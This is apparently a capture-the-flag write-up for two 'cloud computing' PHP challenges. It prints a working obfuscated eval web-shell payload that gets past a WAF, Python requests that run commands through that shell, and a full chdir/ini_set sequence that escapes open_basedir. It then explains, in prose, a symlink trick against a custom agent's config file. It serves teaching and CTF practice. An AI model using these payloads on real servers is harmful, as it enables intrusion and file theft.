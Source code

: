 cloud computing v1
==================

First, we upload a php shell. We need to bypass the PHP waf, so we use the unicode character trick:

```
>>> print requests.get("http://pwnable.org:47780/", params={"action": "upload", "data": '<?=eval(${~"\xa0\xb8\xba\xab"}[1]);'}).text

>>> print requests.get("http://pwnable.org:47780/", params={"action": "shell", "1": "echo 1;"}).text
1

>>> print requests.get("http://pwnable.org:47780/", params={"action": "shell", "1": 'var_dump(scandir("sandbox/805fb7200ba4a2dea98877874d1db5185e6c5e2a/"));'}).text
array(3) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(9) "index.php"
}
```

There is a lot of disable_functions restictions.

We notice we have a `open_basedir` restriction, so we try some of the basedir bypasses found online. The one that ends up working is [https://twitter.com/eboda_/status/1113839230608797696](https://twitter.com/eboda_/status/1113839230608797696)

```
chdir("sandbox/8ddd028c8f68d41d6d562447956a5905e68665c2/");var_dump(mkdir("test"));

chdir("sandbox/8ddd028c8f68d41d6d562447956a5905e68665c2/");var_dump(chdir("test"));
ini_set("open_basedir", "..");
chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");chdir("..");
ini_set("open_basedir", "/");var_dump(scandir("/"));
```

We have to run all the commands in a single request. This bypasses the basedir.

We can download a image flag in `/flag.img` and extract a PNG from it using binwalk which contains the flag.

There is also a interesting binary at `/agent` which will be useful later.


cloud computing v2
==================

We can use the same shell from the previous challenge but the open_basedir bypass doesn't work since we don't have chdir.
However we can use `file_get_contents` to check localhost/ and notice there is a custom webserver running. This probably is the same as
the `/agent` binary we found earlier.

We reverse the binary and notice that there are three interesting endpoints. init,read,scan.

init takes a directory parameter and creates a config.json with a contents: `{"ban": "flag"}`.

read takes a directory parameter and a target param. It reads the config.json from the directory and checks for the characters in the ban property,
so in our case the target file cannot have any f,l,a,g characters. If it passes, then we have a file read, we can confirm this by reading `/etc/hosts`.

scan takes a directory, goes through all the php files in that directory, and empties them.


The first thing we tried was to create a subdirectory in our sandbox dir and create a empty config.json in that, however the server checks that the config.json
file has to be owned by root, so this doesn't work.

The next thing we did was created a directory with a php file that is a symlink to config.json. So when we run scan on this directory, it actually goes to the config.json
and empties it. So now that there is no ban, we can use the read endpoint to read the flag.
